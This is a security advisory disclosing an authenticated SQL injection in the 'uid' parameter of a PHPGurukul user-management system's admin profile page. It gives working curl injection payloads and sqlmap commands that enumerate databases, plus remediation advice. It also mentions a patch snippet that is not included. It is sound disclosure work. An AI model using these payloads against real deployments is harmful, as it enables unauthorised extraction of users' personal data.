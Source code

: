 # PHPGurukul User Registration & Login and User Management System With Admin Panel v3.3 Authenticated SQL Injection in adminuser-profile.php (uid) 

## Summary
An authenticated SQL Injection vulnerability exists in the admin user profile page (`/admin/user-profile.php`) of “User Registration & Login and User Management System With Admin Panel” version 3.3. The `uid` GET parameter is concatenated directly into a SQL query, enabling time-based and boolean-based blind SQL injection.

- Vulnerability Type: SQL Injection (CWE-89)
- Affected Product: User Registration & Login and User Management System With Admin Panel
- Affected Version: v3.3 (confirmed)
- Affected Endpoint: `/loginsystem/admin/user-profile.php`
- Vulnerable Parameter: `uid` (GET)
- Authentication: Required (Admin session)
- Severity (proposed CVSS v3.1): 7.5 High (AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N)

## Technical Details
The page builds a query using user-controlled `uid` without parameterization or validation:

File evidence:
- Source file: loginsystem/admin/user-profile.php
- Root cause: direct string concatenation of `$_GET['uid']` into the SQL statement

```php
<?php
$userid=$_GET['uid'];
$query=mysqli_query($con,"select * from users where id='$userid'");
while($result=mysqli_fetch_array($query)) { /* render profile */ }
```

This enables attackers with a valid admin session to inject arbitrary SQL predicates, e.g. time-based blind via `SLEEP()` or boolean-based blind using `AND/OR` conditions.

## Proof of Concept (safe, reproducible)
Prerequisite: Login as admin to obtain a valid PHPSESSID cookie.

- Boolean-based blind (observe content differences or HTTP status/length):
```bash
curl -i "http://localhost/loginsystem/admin/user-profile.php?uid=0%27%20AND%200%3D1%20--%20-" -H "Cookie: PHPSESSID=your_admin_cookie_here"
```

- Boolean-based blind (true branch):
```bash
curl -i "http://localhost/loginsystem/admin/user-profile.php?uid=0%27%20OR%201%3D1%20--%20-" -H "Cookie: PHPSESSID=your_admin_cookie_here"
```

- Time-based blind (sqlmap; stabilize timing and reduce noise):
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=T --time-sec=10 --delay=1 --timeout=30 --retries=3 --keep-alive --random-agent --flush-session --current-db
```

Your successful run (sample) showed:
- Payload: `uid=1' AND (SELECT(SLEEP(5)))-- ...`
- Backend: Apache 2.4.39, PHP 7.3.4, MySQL ≥ 5.0.12
- Confirmed time-based blind delays and sqlmap detection (enumeration may fail under jitter; see “Verification tips”)

## Impact
- Read: Enumerate database schema and extract sensitive user data (PII: names, emails, contact numbers, registration dates).
- Pivot: Combine with other admin-side injection issues to broaden exfiltration.
- Risk: High for confidentiality; moderate for integrity (primarily SELECT-context), availability unaffected.

## Verification tips (if enumeration is unstable)
- Prefer boolean-based blind for this endpoint:
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=B --risk=3 --level=5 --random-agent --flush-session --dbs
```
- For time-based blind, increase `--time-sec`, add `--delay`, try `--no-cast`/`--hex`, and replay a captured request with `-r` to include exact headers/cookies.

## Remediation
- Replace direct string concatenation with prepared statements.
- Validate and type-check GET/POST parameters (e.g., ensure `uid` is an integer).
- Apply least-privilege DB accounts and server-side input validation.

Minimal secure patch suggestion (prepared statements):
See the “Patch snippet” section below for `admin/user-profile.php`.

## Affected Files
- `loginsystem/admin/user-profile.php` (primary injection point)

## Timeline
- Discovery: 2025-09-25

## References
- Product page (version reference): PHPGurukul “User Registration & Login and User Management System With Admin Panel” (v3.3)
- Internal code evidence: repository file `loginsystem/admin/user-profile.php`

## Appendix: Suggested sqlmap commands
- Enumerate current DB with boolean-based blind:
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=B --risk=3 --level=5 --current-db
```
